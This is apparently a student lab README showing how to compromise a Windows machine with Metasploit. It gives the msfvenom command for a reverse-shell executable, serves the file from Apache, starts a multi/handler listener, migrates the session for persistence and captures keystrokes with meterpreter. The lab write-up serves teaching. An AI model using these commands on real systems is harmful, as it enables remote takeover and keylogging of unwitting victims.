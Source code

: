 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/00d146f1-d14e-4a64-a67a-e53e332e4444)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/1e780f98-06c9-4209-b0ec-b199a06ce3d2)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/656645e6-c6b7-43d5-a97d-55b900d4d2ba)

Start apache server
sudo systemctl apache2 start

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/dcb3068a-0fcc-487f-9a30-0e02e23d0c6d)

Check the status of apache2

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/000fec71-9333-4adc-aba4-cd4b8f0d1359)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/4262f49d-cd4f-4176-94a9-a88a008a3c52)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/a0414548-f155-4214-9c74-544372608050)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/d5051c2d-f1ae-4b9a-8e9a-e299d813ad0e)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/2a95ff8e-03a7-46bd-a872-069bdc67fc04)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/19f0c973-5ac5-452e-bd91-1e9f32848b53)

keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/charu-dharshinii/Compromising-windows-using-Metasploit/assets/130828943/4363554a-91a9-4abf-8aae-031462b6aa69)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
